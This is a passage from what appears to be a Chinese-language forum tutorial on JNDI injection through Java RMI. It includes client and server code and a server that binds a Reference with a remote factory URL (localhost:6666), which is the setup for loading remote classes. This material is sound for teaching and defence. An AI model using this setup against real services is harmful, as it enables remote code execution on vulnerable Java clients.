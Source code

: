 JNDI
====

JNDI（全称Java Naming and Directory Interface）是用于目录服务的Java API，它允许Java客户端通过名称发现和查找数据和资源(以Java对象的形式)。与与主机系统接口的所有Java api一样，JNDI独立于底层实现。此外，它指定了一个服务提供者接口(SPI)，该接口允许将目录服务实现插入到框架中。通过JNDI查询的信息可能由服务器、文件或数据库提供，选择取决于所使用的实现。

JNDI注入+rmi
==========

JNDIClient

```php
public class JNDIClient {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        IRemoteObj o = (IRemoteObj) initialContext.lookup("rmi://127.0.0.1:1099/remoteOb");
        System.out.println(o.sayHello("hello"));
    }
}
```

JNDIServer

```php
public class JNDIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        LocateRegistry.createRegistry(1099);
        initialContext.rebind("rmi://localhost:1099/remoteOb",new RemoteObImpl());
    }
}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-8f5b9b566f701b83c077ed1f1ca54e62d502a280.png)

跟进一下客户端lookup方法,跟进到RegistryContext类的lookup方法，从这里可以看出来，其实调用的还是RMI的东西。如果客户端的lookup参数可控，就可以让它访问我们恶意的链接了。  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-06fec7bb74b27b3a1eb50320932added11301ad0.png)

绑定引用对象
------

```php
public class JNDIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        Reference reference = new Reference("TestRef", "TestRef", "http://localhost:6666/");
        initialContext.rebind("rmi://localhost:1099/remoteOb",reference);
    }
}
```

看一下Reference类。工厂，第一个参数类型className，第二个工厂名factory，工厂的位置。

```php

    /**
      * Constructs a new reference for an object with class name 'className',
      * and the class name and location of the object's factory.
      *
      * @param className The non-null class name of the object to which
      *                         this reference refers.
      * @param factory  The possibly null class name of the object's factory.
      * @param factoryLocation
      *         The possibly null location from which to load
      *         the factory (e.g. URL)
      * @see javax.naming.spi.ObjectFactory
      * @see javax.naming.spi.NamingManager#getObjectInstance
```